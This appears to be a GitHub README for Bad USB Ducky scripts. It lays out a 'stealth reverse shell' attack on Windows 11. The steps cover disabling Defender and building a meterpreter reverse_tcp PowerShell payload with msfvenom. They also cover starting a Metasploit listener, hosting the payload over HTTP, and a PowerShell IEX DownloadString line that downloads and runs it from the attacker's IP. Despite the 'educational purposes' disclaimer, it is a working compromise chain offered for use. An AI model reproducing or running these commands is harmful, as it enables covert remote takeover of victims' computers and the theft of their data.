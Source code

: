 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**

### **Steps to Compromise(StealthReverseShell):**
#### **Below text applies to the stealth reverse shell.**


### Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.
### Tested on Windows 11 Home
### Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
### Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
### Start python http server<br/>
python3 -m http.server 80<br/>
### Ducky script will download and execute powershell script opening meterpreter session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')


